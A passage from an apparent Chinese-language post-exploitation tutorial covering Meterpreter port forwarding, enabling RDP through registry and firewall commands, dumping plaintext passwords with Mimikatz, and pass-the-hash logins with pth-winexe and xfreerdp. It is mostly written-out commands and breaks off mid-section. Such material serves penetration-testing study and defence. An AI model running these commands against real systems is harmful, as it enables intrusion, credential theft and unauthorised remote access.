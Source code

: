拓展学习《后渗透之meterpreter使用攻略》： [https:// xz.aliyun.com/t/2536](https://link.zhihu.com/?target=https%3A//xz.aliyun.com/t/2536)

> 
<pre>// https://www.offensive-security.com/metasploit-unleashed/portfwd/
// 转发远程端口到目标地址
meterpreter &gt; portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali &gt; rdesktop 127.0.0.1:3389</pre>


### 15.开启 RDP 服务

远程桌面协议（RDP, Remote Desktop Protocol）是一个多通道（multi-channel）的协议，让用户（客户端或称“本地电脑”）连上提供微软终端机服务的电脑（服务器端或称“远程电脑”）。位于TCP/IP协议族的应用层。在使用RDP协议的会话中，客户端的鼠标或者键盘等消息经过加密后传输到远端服务器并予以重放执行，而远端服务器所进行的一系列响应也以加密消息的形式通过网络回传给客户端，并借助客户端的图形引擎表示出来。

> 
<pre>reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable</pre>


### 16.Mimikatz使用

mimikatz 在内网渗透中是个很有用的工具。它可能让攻击者从内存中抓到明文密码。不仅如此，它还可以提升进程权限，注入进程，读取进程内存等等， **mimikatz** 包含了很多本地模块，更像是一个轻量级的调试器。

下载地址： [https:// github.com/gentilkiwi/m imikatz](https://link.zhihu.com/?target=https%3A//github.com/gentilkiwi/mimikatz)

拓展学习： [https:// blog.csdn.net/kevinstoi c/article/details/9004784](https://link.zhihu.com/?target=https%3A//blog.csdn.net/kevinstoic/article/details/9004784)

> 
<pre>git clone https://github.com/gentilkiwi/mimikatz.git
privilege::debug
sekurlsa::logonPasswords full</pre>


### 17.获取哈希值 

> 
<pre>//访问git项目
git clone https://github.com/byt3bl33d3r/pth-toolkit         


pth-winexe -U hash //IP cmd


或者


apt-get install freerdp-x11
xfreerdp /u:offsec /d:win2012 /pth:HASH /v:IP


或者
